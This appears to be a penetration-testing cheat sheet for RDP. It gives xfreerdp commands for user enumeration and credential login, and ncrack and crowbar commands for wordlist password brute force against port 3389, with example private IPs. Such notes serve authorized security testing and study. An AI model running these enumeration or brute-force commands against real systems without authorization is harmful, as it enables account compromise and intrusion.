 # Remote Desktop Protocol

## xfreerdp
### Simple User Enumeration for Windows Target (kerberos based)

xfreerdp /v:<target_ip> -sec-nla /u:""

`xfreerdp /v:192.168.0.32 -sec-nla /u:""`

## login

xfreerdp /u:<user> /g:<domain> /p:<pass> /v:<target_ip>

`xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34`

### Wordlist based bruteforce

### NCRACK

ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389

`ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389`

### Crowbar

crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v

`crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v`

